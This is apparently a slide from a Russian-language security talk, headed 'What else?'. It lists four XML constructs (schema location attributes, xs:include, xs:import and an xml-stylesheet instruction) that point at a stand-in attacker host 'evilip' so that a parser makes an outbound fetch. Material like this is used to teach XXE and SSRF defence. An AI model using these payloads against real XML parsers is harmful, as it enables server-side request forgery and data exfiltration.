

# А еще?
<tag xsi:noNamespaceSchemaLocation="http://evilip"/>
<xs:include schemaLocation="http://evilip">
<xs:import schemaLocation="http://evilip">
<?xml-stylesheet href="http://evilip"?>